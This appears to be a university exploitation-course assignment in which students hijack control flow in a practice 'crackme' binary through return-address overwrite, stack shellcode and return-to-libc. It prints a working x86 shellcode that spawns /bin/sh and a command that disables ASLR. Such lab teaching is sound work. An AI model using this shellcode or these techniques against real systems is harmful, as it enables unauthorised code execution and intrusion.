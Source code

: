 # Assignment 0x01

## Assignment set-up

PEDA: http://ropshell.com/peda/

    # install PEDA
    $ git clone https://github.com/longld/peda.git ~/peda
    $ echo "source ~/peda/peda.py" >> ~/.gdbinit

    # TIP. if you don't want to see gdb's init banner
    $ echo 'alias gdb="gdb -q"' >> ~/.bashrc


## Part 1 (4pt): Control flow hijacking

### Prepration
Download *crackme0x00* from http://cs6332.syssec.org/crackmes/crackme0x00

### Description

In this assigment, we are going to hijack the control flow of *crackme0x00*
by overwriting the instruction pointer. As a first step, let's make it print
out "Password OK :)"!

```
$ objdump -d crackme0x00
...
    8048469:       e8 e2 fe ff ff          call   8048350 <strcmp@plt>
    804846e:       85 c0                   test   %eax,%eax
    8048470:       74 0e                   je     8048480 <main+0x6c>
    8048472:       c7 04 24 96 85 04 08    movl   $0x8048596,(%esp)
    8048479:       e8 c2 fe ff ff          call   8048340 <printf@plt>
    804847e:       eb 0c                   jmp    804848c <main+0x78>
 -> 8048480:       c7 04 24 a9 85 04 08    movl   $0x80485a9,(%esp)
    8048487:       e8 b4 fe ff ff          call   8048340 <printf@plt>
    804848c:       b8 00 00 00 00          mov    $0x0,%eax
    8048491:       c9                      leave
    8048492:       c3                      ret
```

main function will return to `0x08048480` such that it prints out "Password OK :)". Which characters in input should be changed to 0x08048480? Let me remind you that x86 is a little-endian machine.


### Output to submit

Save your attack payload to `input1`. The expected running example would be like the following.

    $ cat input1 | ./crackme0x00
    CS6332 Crackme Level 00
    Password: Invalid Password!
    Password OK :)
    Segmentation fault


## Part 2 (8 piont): Jump Shellcode 

### Prepration
Download *crackme0x00-nonx* from http://cs6332.syssec.org/crackmes/crackme0x00-nonx and check its binary to ensure stack section (*GNU_STACK*) is in `RWE` permission which mean you can write and run a shellcode snippet from stack.

```
$ readelf -W -l ./crackme0x00-nonx|grep STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

### Description

From this assignment, Peda will generate a shellcode. You will craft an input to overwrite the stack with shellcode and transfer control the beginning of shellcode as *main()* function returns.

Peda generates a shellcode snippet for you.
```
gdb-peda$ shellcode generate x86/linux exec
# x86/linux/exec: 24 bytes
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
    "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
)
```
which disassembled as below.

![](https://i.imgur.com/qhId2Vy.jpg)

Check shellcode length, and make sure shellcode should fit in to stack.

```python
>>> shellcode = (
...     "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
...     "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
... )
>>> len(shellcode)
24
```

```
$ objdump -j .text -d crackme0x00-nonx
...
5bc:	83 ec 20             	sub    $0x20,%esp
...
```

Create an input that would run *shellcode* and subsequently give */bin/sh* prompt. 

### Output to submit

Save your attack payload to `input2`. The expected running example would be like the following.

    $ cat input2 | ./crackme0x00-nonx
    CS6332 Crackme Level 00
    Password: Invalid Password!
    $ whoami
    kjee


## Part 3 (8 point): Return-to-libc

### Prepration
For this part, we will use *crackme0x00* binary again. Download *crackme0x00* from http://cs6332.syssec.org/crackmes/crackme0x00 and check its binary to ensure stack section (*GNU_STACK*) is in `RW` permission which mean you can overwrite a stack, but cannot run any code from there.

```
$ readelf -W -l ./crackme0x00|grep STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4
```

You need to turn off ASLR from your system in order for libraries loaded to a fixed address across different executions.

```
$ sudo echo 0 > /proc/sys/kernel/randomize_va_space
$ cat /proc/sys/kernel/randomize_va_space
0
```

### Description

From this part of the assignment, you can still hijack the control by overwriting the return address, but you don’t know where to transfer the control, to run the desired command (say */bin/sh*). In this part of the assignment, we want to use *system()* function provided by Glibc library. For its usage, please check out `man -s 3 system`.

Please write an input that would overwrite the address of *system()* to return address of main() and transfer the control at main() returns. Don't forget to prepare the argument (*/bin/sh*) of the function call from the stack.

#### *system()* function example
The above snippet would give you a command prompt. 

```bash
$ cat << EOF > /tmp/system.c
#include <stdlib.h>
// system.c
int main() {
    system("/bin/sh");
}
EOF

$ gcc  /tmp/system.c
$ ./a.out
$ whoami
kjee
```

### Obtaining address of *system()* at runtime

* GDB (Peda) will the address of *system()* at runtime. 

```
$ gdb  crackme0x00
gdb-peda$ b main
gdb-peda$ run
...

gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e26d10 <system>
```
`0xf7e26d10` is address that you want to return to run the function.


### Output to submit

Save your attack payload to `input3`. The expected running example would be like the following.

    $ cat input3 | ./crackme0x00
    CS6332 Crackme Level 00
    Password: Invalid Password!
    $ whoami
    kjee

###### tags: `utd`,`assignment`,`cs6332`,`r2`